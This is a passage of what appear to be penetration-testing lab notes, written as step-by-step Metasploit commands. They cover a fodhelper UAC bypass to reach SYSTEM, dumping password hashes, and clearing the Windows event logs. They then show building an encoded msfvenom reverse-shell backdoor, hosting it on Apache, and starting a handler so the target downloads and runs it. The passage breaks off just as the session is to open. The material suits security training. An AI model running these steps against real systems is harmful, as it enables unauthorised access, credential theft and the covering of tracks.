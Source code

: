 
	meterpreter > background 	# moves the current Meterpreter session to the background.
	use exploit/windows/local/bypassuac_fodhelper
	show options
	set SESSION 1 (1 is the current Meterpreter session which is running in the background)
	show options
	set LHOST 10.10.1.13	# if needed
	set LPORT 4444			# if needed
	set TARGET 0			# (here, 0 indicates nothing, but the Exploit Target ID).
	exploit
	
	
	meterpreter > getuid		# still normal privileges
	meterpreter > getsystem -t 1	# Elevate privileges. If not successful, try getsystem
	meterpreter > getuid		# now running with system privileges (NT AUTHORITY\SYSTEM)
	
Note: In Windows OSes, named pipes provide legitimate communication between running processes. You can exploit this technique to escalate privileges on the victim system to utilize a user account with higher access privileges.

Check if we have successfully obtained the SYSTEM/admin:

	meterpreter > run post/windows/gather/smart_hashdump	# Wz obtain password hashes
	
	meterpreter > clearev 		# clear the event logs that require administrative or root privileges.



### Hack a Windows Machine using Metasploit and Perform Post-Exploitation using Meterpreter


Create the exploit:

	msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
	
Copy it on a shared folder:

	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/
	chown -R www-data:www-data /var/www/html/share
	cp /home/attacker/Desktop/Backdoor.exe /var/www/html/share/
	service apache2 start


Launch Metasploit:

	msfconsole
	> use exploit/multi/handler
	> set payload windows/meterpreter/reverse_tcp
	> set LHOST 10.10.1.13
	> show options 
	> exploit -j -z		# start the handler

On target machine, download the backdoored exe and execute it:

	http://10.10.1.13/share 

Open meterpreter session:
